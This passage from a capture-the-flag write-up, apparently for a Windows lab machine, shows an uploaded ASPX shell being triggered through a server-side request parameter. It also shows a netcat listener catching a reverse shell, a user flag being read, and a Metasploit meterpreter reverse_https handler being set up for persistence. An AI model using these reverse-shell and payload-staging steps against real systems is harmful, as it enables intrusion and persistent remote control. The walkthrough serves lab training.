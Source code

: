 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We can head back to the repeater and we should see our report


If we go to the `Raw` tab of the response and scroll down we'll find the `View Report` Link of our uploaded shell which is `ViewReport.aspx?file=2be24979-ddae-4f57-a9e7-d94e44429b64_blank.aspx`
Added it the `Link` parameter `http%3a//127.0.0.1%3a8080/ViewReport.aspx?file=2be24979-ddae-4f57-a9e7-d94e44429b64_blank.aspx` and sent the request


and it spawned a shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.71.74] 65463
Spawn Shell...
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


found user flag in the desktop of the user's folder

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c:\Users\svc_exampanel\Desktop>type user.txt
type user.txt
ee64bccf15802ae700de4ccf1a4d9944
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



## Getting Root

### Information Gathering

Going to open a session using metasploit and msfvenom to have a persisting session

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > seet PAYLOAD windows/x64/meterpreter/reverse_https
[-] Unknown command: seet
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.71
msf6 exploit(multi/handler) > set LPORT 9998
LPORT => 9998
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://10.10.14.71:9998
[!] https://10.10.14.71:9998 handling request from 10.129.134.38; (UUID: omvmaxhy) Without a database connected that payload UUID tracking will not work!
[*] https://10.10.14.71:9998 handling request from 10.129.134.38; (UUID: omvmaxhy) Staging x64 payload (201820 bytes) ...
[!] https://10.10.14.71:9998 handling request from 10.129.134.38; (UUID: omvmaxhy) Without a database connected that payload UUID tracking will not work!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~